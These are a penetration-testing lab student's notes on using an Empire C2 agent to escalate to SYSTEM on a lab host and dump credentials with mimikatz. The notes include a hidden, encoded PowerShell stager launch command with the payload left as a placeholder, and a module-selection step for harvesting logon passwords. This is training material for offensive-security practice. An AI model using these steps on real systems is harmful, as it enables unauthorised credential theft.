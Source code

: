 #### Tags: [[06 - Privilege Escalation (TA0004)]] [[Empire C2]]

## Overview 
- Goal: Use our elevated agent to pull password hashes using mimikatz. 

### Operating via Agent or PowerShell
Always check for the following:
1. Integrity - High
2. Running as - System
3. Arch / Bit - 32 Bit will show as x86 Architecture or 64 Bit PowerShell Process

This is due to the fact that the binary we compiled with PowerUp is only 32-bit and there is not a 64-bit option.
- If we run mimikatz with this agent, it will fail due to the architecture mismatch. In fact, many of the modules will not function properly with this 32-bit agent. 

### PowerShell Process
On 64-bit Windows, the System32 folder holds the 64-bit binaries and the SysWOW64 folder holds the 32-bit binaries. Remember that WOW64 stands for "Windows 32-bit on Windows 64-bit"

`32-bit (x86) PowerShell is located at %SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe

`64-bit (x64) PowerShell is located at %SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe

Note: We cannot spawn a 64 bit PS from a 32 bit agent. To spawn a new process / agent:
`C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe -noP -sta -w 1 -enc  <ENCODED_PART_OF_STAGER>`
- Observe, we now have a new agent that is a 64-bit process running as SYSTEM!

![[Pasted image 20240331023805.png]]
## Exploitation 
Interact with your new 64-bit agent, select powershell/credentials/mimikatz/logonpasswords from the Execute Module drop down list. Then click the SUBMIT button.
```markdown
```

![[Pasted image 20240331023854.png]]

#### Notes | Bonus


## Conclusion
In this lab we took advantage of our foothold on wk01.draconem.io. 
- First, we had to make sure it was safe to operate. We used Seatbelt to pull a lot of information from the system, we reviewed the results and didn't notice anything particularly risky to our engagement.
- Then we continued host-based discovery in search of Privilege Escalation opportunities with PowerUp. 
- Once we found the unquoted service path we had to jump through a few hoops to take advantage of it. 
- In the end we were able to elevate to SYSTEM and we dumped password hashes! Now we have a new password hash for the user Wesley.Thurner.